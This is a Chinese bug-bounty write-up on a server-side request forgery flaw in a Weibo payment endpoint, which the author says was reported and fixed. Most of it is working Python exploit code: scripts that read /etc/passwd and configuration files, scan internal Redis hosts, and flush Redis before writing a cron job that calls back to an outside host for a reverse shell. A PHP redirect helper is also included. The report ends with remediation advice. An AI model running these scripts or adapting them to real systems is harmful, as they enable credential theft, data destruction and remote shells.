



# 微博GET SHELL

Feei <feei#feei.cn> 08/2016

> 看到微博SRC做活动，严重级别漏洞额外奖励5000现金，于是花了接近一晚上找到这个洞。漏洞报告给微博后，由于是微博收到的第一个严重漏洞导致他们运营无法理解漏洞具体危害场景及影响范围，解释一通最终奖励了￥5,000现金和2000积分。

## 1. 找切入点

用[WebProxy](https://github.com/FeeiCN/WebProxy)抓到一处*URL中带URL的请求*：`http://zhifu.game.weibo.com/topay.php`。

参数中`payaction`为URL，可以想想后端会拿参数里的URL干嘛？一般情况下可能存入数据库，比如申请友情链接的场景。有些情况可能会去请求这个URL，比如在线翻译某个网站内容的场景。

如果是第二种情况则可能存在SSRF，回放请求进行验证。


通过我服务器上NGINX `access.log`可以发现有请求打过来，所以可以确认存在SSRF。


那就开始利用吧！

## 2. 第一滴血

**任意文件读取**

SSRF支持`file://`协议，所以可以构造一个`payaction=file:///etc/crontab`来读取`crontab`文件内容。
写个利用脚本自动化读取`crontab`文件内容：

**`exp_ssrf_file_sina.py`**

```python
#!/usr/bin/env python
#
# Read file use by SSRF
#
# Copyright 2016 Feei. All Rights Reserved
#
# :Author:   Feei <feei#feei.cn>
# :homepage: https://github.com/FeeiCN/vulture
#
# This program is distributed in the hope that it will be useful,
# but WITHOUT ANY WARRANTY; without even the implied warranty of
# MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
#
# See the file 'docs/COPYING' for copying permission
#
import requests

"""
server base info
"internal": "10.71.xxx.xxx/24",
"external": "10.70.xxx.xxx/24"
"""

host = '10.75.6.89'
port = '6379'
bhost = '103.21.140.84'
bport = '6789'

_location = 'http://feei.cn/301.php'
shell_location = 'http://feei.cn/shell.php'
_http = 'http://feei.cn/http.php'

# 配置需要读取的文件
_file = 'file:///etc/crontab'
# _file = 'file:///etc/dAppCluster/get_asset.py'
# _file = 'file:///etc/passwd'
# _file = 'file:///etc/my.cnf'
# _file = 'file:///var/log/mysqld.log'
# _file = 'file:///etc/profile'
# _file = 'file:///data1/www/htdocs/game.weibo.com/favicon.ico'
# _file = 'file:///data1/www/htdocs/game.weibo.com/index.html'
# _file = 'file:///etc/rsyncd.conf'
# _file = 'file:///etc/vsftpd/vsftpd.conf'

# _file = 'file:///etc/httpd/conf/httpd.conf'
# _file = 'file:///data1/www/htdocs/game.weibo.com/.svn/entries'
# _file = 'file:///etc/sinainstall.conf'
# _file = 'file:///etc/dAppCluster/detect_yum_branch.sh'
# _file = 'file:///etc/profile.d/yum_var.sh'

# _file = 'file:///etc/init.d/pacdeploy'
# _file = 'file:///etc/dAppCluster/pacdeploy.py'
# _file = 'file:///var/log/package_deploy.log'

def post(url):
    post_data = {
        'return_url': 'test',
        'order_id': 'test',
        'order_uid': 'test',
        'desc': 'test',
        'appkey': 'test',
        'amount': 'test',
        'version': 'test',
        'token': 'tes',
        'mid': 'tt',
        'channel_id': 't',
        'user_ip': 't',
        'sign': 't',
        'payaction': url
    }
    headers = {
        'cookie': '***',
        'Content-Type': 'application/x-www-form-urlencoded',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.82 Safari/537.36'
    }
    print(url)
    content = requests.post("http://zhifu.game.weibo.com/topay.php", data=post_data, headers=headers)
    print content.content

post(_file)
```

**`301.php`**

```php
<?php

$ip = $_GET['ip'];

$port = $_GET['port'];

$scheme = $_GET['s'];

$data = $_GET['data'];

header("Location: $scheme://$ip:$port/$data");

?>

```

 

`/etc/crontab`内有许多定时任务及对应脚本路径，随便挑个读取内容 ：
 

读取`/etc/passwd`文件：
 

这台服务器上有web、db还有很多开发人员登陆过，不一一展示。
可以根据Response header发现`zhifu.game.weibo.com`这个域名是有做负载均衡的，可以看到后面的服务器有很多。
 

截至目前影响已经上升到N台（取决负载服务器数量）服务器任意文件读取漏洞。

## 3. 扩大战果

**读取代码配置**

如果只是读取一些没什么影响的文件，那还算不上严重。
结合之前发现的一个漏洞，当时出现了一个新浪rSync匿名访问，泄露一些敏感文件。
其中就有Web目录结构。（提醒下，那个漏洞已经过去很久，到现在还没彻底修复好，建议微博SRC仔细排查下）

`/data1/www/htdocs/game.weibo.com/`

读个`favicon.ico`验证下
 

读个配置文件 


至此已经可以读取到代码配置、密钥等敏感信息，并可以拿这些信息进一步利用了。

## 4. 再次扩大

**任意写文件、爆破FTP、SMTP...**

上面的N台服务器任意敏感文件读取已经达到最高安全等级，但是没法写入文件，所以再次扩大战果，任意文件写入，甚至获取GET SHELL。

SSRF还支持`gopher`协议，通过这个协议我们可以构造出能直接操作Redis的请求 
能操作Redis的话，能做的事情就多了。

通过构造`dict://10.n.n.n.n:6379/info`来探测内网可以匿名访问的Redis服务。
通过随机挑选大B段、B段、C段的IP，通过设置请求的超时时间来判断是否存在。

```python
#!/usr/bin/env python
#
# Detect Redis server use by SSRF
#
# Copyright 2016 Feei. All Rights Reserved
#
# :Author:   Feei <feei#feei.cn>
# :homepage: https://github.com/FeeiCN/vulture
#
# This program is distributed in the hope that it will be useful,
# but WITHOUT ANY WARRANTY; without even the implied warranty of
# MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
#
# See the file 'docs/COPYING' for copying permission
#
import requests

import time

import requests.packages.urllib3

requests.packages.urllib3.disable_warnings()

import threading

import Queue

threads_count = 20

scheme = 'dict'

port = '6379'

"""
10.75.7.37 key: wyxnotice-requests
10.205.22.181 - no
172.16.56.21 - no
10.12.83.10 - no
10.205.17.218 - no
rc11281.eos.grid.sina.com.cn 11281

offline
192.168.0.212 - no
192.168.0.210 - no
"""
ip_block = '10.69'


class WyWorker(threading.Thread):
    def __init__(self, queue):

        threading.Thread.__init__(self)

        self.queue = queue

    def run(self):

        while True:

            if self.queue.empty():
                break

            try:

                url = self.queue.get_nowait()
                post_data = {
                    'return_url': 'test',
                    'order_id': 'test',
                    'order_uid': 'test',
                    'desc': 'test',
                    'appkey': 'test',
                    'amount': 'test',
                    'version': 'test',
                    'token': 'tes',
                    'mid': 'tt',
                    'channel_id': 't',
                    'user_ip': 't',
                    'sign': 't',
                    'payaction': url
                }
                headers = {
                    'cookie': '***',
                    'Content-Type': 'application/x-www-form-urlencoded',
                    'user-agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.82 Safari/537.36'
                }
                content = requests.post("http://zhifu.game.weibo.com/topay.php", data=post_data, headers=headers, timeout=1)
                if len(content.text) != 26:
                    print content.status_code, url, 'OPEN', len(content.text), content.content
                else:
                    print content.status_code, len(content.text)

            except requests.exceptions.ReadTimeout:

                pass

            except requests.exceptions.ConnectTimeout:
                pass

            except Exception, e:

                break


queue = Queue.Queue()

# 127
# for c in xrange(0, 255):
#     for d in xrange(0, 25):
#         for e in xrange(0, 10):
#             ip = '{0}.{1}.{2}.1{3}'.format(ip_block, c, d, e)
#
#             payload = 'http://feei.cn/301.php?s={scheme}&ip={ip}&port={port}&data=vulture.jpg'.format(
#                 scheme=scheme,
#                 ip=ip,
#                 port=port
#             )
#             queue.put(payload)

# 127.0
for c in xrange(0, 255):

    for d in xrange(0, 255):
        ip = '{0}.{1}.{2}'.format(ip_block, c, d)
        #
        # payload = 'http://feei.cn/301.php?s={scheme}&ip={ip}&port={port}&data=vulture.jpg'.format(
        #     scheme=scheme,
        #     ip=ip,
        #     port=port
        # )

        payload = 'dict://{0}:6379/ssrf'.format(ip)
        print payload

        queue.put(payload)

# 127.0.0

# for d in xrange(0, 255):
#     ip = '{0}.{1}'.format(ip_block, d)
#
#     # payload = 'http://feei.cn/301.php?s={scheme}&ip={ip}&port={port}&data=vulture.jpg'.format(
#     #     scheme=scheme,
#     #     ip=ip,
#     #     port=port
#     # )
#     payload = 'dict://{0}:6379/info'.format(ip)
#     print payload
#     queue.put(payload)
#
#
#  127.0.0.1
# ip = ip_block
#
# payload = 'http://feei.cn/301.php?s={scheme}&ip={ip}&port={port}&data=vulture.jpg'.format(
#     scheme=scheme,
#     ip=ip,
#     port=port
# )

# queue.put(payload)

threads = []

for i in xrange(threads_count):
    threads.append(WyWorker(queue))

for t in threads:
    t.start()

for t in threads:
    t.join()
```

最终在`10.17`段找到几台可以利用的匿名Redis：

- 10.75.6.89 
- 10.75.6.90 
- 10.75.6.91

构造请求用Redis写`cron`（`/var/spool/cron/root`）。

```python
#!/usr/bin/env python
#
# Copyright 2016 Feei. All Rights Reserved
#
# :Author:   Feei <feei#feei.cn>
# :homepage: https://github.com/FeeiCN/vulture
#
# This program is distributed in the hope that it will be useful,
# but WITHOUT ANY WARRANTY; without even the implied warranty of
# MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
#
# See the file 'docs/COPYING' for copying permission
#
import requests

host = '10.75.6.31'
port = '6379'
bhost = '103.21.140.84'
bport = '6789'
_location = 'http://feei.cn/301.php'
shell_location = 'http://feei.cn/shell.php'
_shell = 'http://feei.cn/shell2.php'
_http = 'http://feei.cn/http.php'


def post(url):
    post_data = {
        'return_url': 'test',
        'order_id': 'test',
        'order_uid': 'test',
        'desc': 'test',
        'appkey': 'test',
        'amount': 'test',
        'version': 'test',
        'token': 'tes',
        'mid': 'tt',
        'channel_id': 't',
        'user_ip': 't',
        'sign': 't',
        'payaction': url
    }
    headers = {
        'cookie': '***',
        'Content-Type': 'application/x-www-form-urlencoded',
        'user-agent': 'Mozilla/5.0 (Unix; Linux) AppleWebKit/537.36 (Vulture, Next Cloud Scan Engine) Chrome/47.0.2526.80 Safari/537.36 Core/1.47.516.400 Vulture/1.0'
    }
    print(url)
    content = requests.post("http://zhifu.game.weibo.com/topay.php", data=post_data, headers=headers)
    print content.content


# 0 info

_payload = '?s=dict&ip={host}&port={port}&data=info'.format(host=host, port=port)

exp_uri = '{0}{1}'.format(_location, _payload)
post(exp_uri)

_payload = '?s=dict&ip={host}&port={port}&data=config:get:pidfile'.format(host=host, port=port)

exp_uri = '{0}{1}'.format(_location, _payload)
post(exp_uri)

_payload = '?s=dict&ip={host}&port={port}&data=get:0'.format(host=host, port=port)

exp_uri = '{0}{1}'.format(_location, _payload)
post(exp_uri)

_payload = '?s=dict&ip={host}&port={port}&data=set:0:"1"'.format(host=host, port=port)

exp_uri = '{0}{1}'.format(_location, _payload)
post(exp_uri)

# 1 flush db

_payload = '?s=dict&ip={host}&port={port}&data=flushall'.format(host=host, port=port)

exp_uri = '{0}{1}'.format(_location, _payload)
post(exp_uri)

# 2 set crontab command

_payload = '?s=dict&ip={host}&port={port}&bhost={bhost}&bport={bport}'.format(host=host, port=port, bhost=bhost, bport=bport)

exp_uri = '{0}{1}'.format(shell_location, _payload)
# exp_uri = '{0}{1}'.format(_shell, _payload)
# exp_uri = '{0}{1}'.format(_http, _payload)
post(exp_uri)

# 3 config set dir /var/spool/cron/

_payload = '?s=dict&ip={host}&port={port}&data=config:set:dir:/var/spool/cron/'.format(host=host, port=port)
# _payload = '?s=dict&ip={host}&port={port}&data=config:set:dir:/var/spool/cron/'.format(host=host, port=port)
# _payload = '?s=dict&ip={host}&port={port}&data=config:set:dir:/root/'.format(host=host, port=port)

exp_uri = '{0}{1}'.format(_location, _payload)
post(exp_uri)

# 4 config set dbfilename root

_payload = '?s=dict&ip={host}&port={port}&data=config:set:dbfilename:.bashrc'.format(host=host, port=port)

exp_uri = '{0}{1}'.format(_location, _payload)
post(exp_uri)

# 5 save to file

_payload = '?s=dict&ip={host}&port={port}&data=save'.format(host=host, port=port)

exp_uri = '{0}{1}'.format(_location, _payload)
post(exp_uri)
```

但是并未反弹回SHELL，猜测应该是这几台的`crond`服务没有开启。

但理论上可以通过写`/etc/profile.d`，只要有人登陆这台服务器，就会反弹SHELL。（但考虑实现的成本，已经对系统有影响，所以只证明，不实践验证）

另外除了操作Redis写文件，`gopher`协议还能做更多事情，比如爆破或者访问匿名FTP，检测内网`ShellShock`等Web漏洞，此处不一一证明。

## 5. 影响范围

- N台（取决于负载服务器数量）服务器任意文件读取（各类配置、脚本、代码、密钥等）
- N台（取决于内网可匿名访问的Redis数量）服务器任意文件写入（可GET SHELL）
- 内部微博接口服务任意调用
- 访问任意微博内网服务

## 6. 渗透声明

- 未留存任何此次渗透测试的数据（配置、密钥等）
- 未连接任何此次渗透的DB
- 未留存任何后门、木马
- 所有敏感截图都会打码，避免CDN泄露
- 本次渗透测试为实名测试，测试过程中使用的Cookie都为本人微博@吴止介
- 本次渗透过程在漏洞修复前不会公开与传播

## 7. 修复建议

- 先修掉SSRF
- 删除渗透测试过程中写入的文件（10.75段的几台Redis服务器中`/var/spool/cron/root`）
- 统一处理内部Redis匿名访问的问题
- 保险起见，对可能涉及到泄露的密码、密钥等进行更改替换
- 有任何问题或需要协助处理的请通过`feei[at]feei.cn`联系


漏洞已报告给CNCERT/乌云/补天或厂商且已修复完成，感谢厂商的重视及现金奖励。

披露漏洞细节是安全行业通行做法，若对披露有异议请联系`feei#feei.cn`进行隐藏厂商处理。
